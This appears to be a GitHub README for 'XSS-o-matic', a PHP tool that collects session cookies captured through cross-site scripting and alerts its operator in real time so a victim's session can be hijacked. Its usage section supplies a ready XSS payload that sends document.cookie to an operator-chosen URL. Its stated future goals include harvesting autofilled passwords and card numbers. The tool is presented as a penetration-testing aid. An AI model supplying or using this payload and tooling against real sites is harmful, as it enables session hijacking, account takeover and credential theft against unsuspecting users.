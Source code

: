 # XSS-o-matic
Recieve Real-Time Slack (or other) Notifications for When Session Cookies are Captured via Stored and Reflected Cross Site Scripting (XSS)

# Description
This is another API, similar to my Phishing API, except this one aids in Session Hijacking when HTML Injection/XSS is discovered on a page.  This was born out of a need to do more than the standard JavaScript alert box.  I needed a simple one-liner my team could use whenever they encountered Cross Site Scripting and I needed to act quickly via real-time notifications while the user's session was still valid.  For this to fully work properly, HttpOnly flags can't be set in the target site's cookies.  For those that aren't familiar with Session Hijacking, please read up on it from the OWASP page here : https://www.owasp.org/index.php/Session_hijacking_attack.  

TL-DR is that you can jump into a user's session without credentails to access authenticated areas of the web application.  There's a MySQL database which also captures a handful of other useful data, such as timestamps, IP addresses, User Agent strings, Hostnames, and Referer headers.

After I wrote this script I realized it may be possible to send the values directly to an IFTTT incoming webhook, essentially bypassing the need for this API or to have anything hosted.  I will need to look into that soon, but for now this works well.

# Future Implementation Goals Include : 

Capturing Cross Domain Cookies

Hidden User/Pass/CC Fields for Auto Population

Ability to Read Local Storage if Available

Integrate into IFTTT for Alterting Options


# Initial Deployment
Just host the PHP files on a web server and import the SQL Dump to create the schema.

# Use
When XSS is discovered during an Application Security or Penetration Test, simply use `<img src=x onerror=this.src='https://YOUR-URL-HERE.com/XSS.php?project=YOUR-PROJECT-HERE&cookie='+document.cookie> height=1 width=1>` or a similar payload.  You may need to modify based on filtering of course, but as long as you're posting data to that URI it should work!

Happy Hijacking!



![Slack Bot Notification](https://i.imgur.com/JLVGbhe.png)
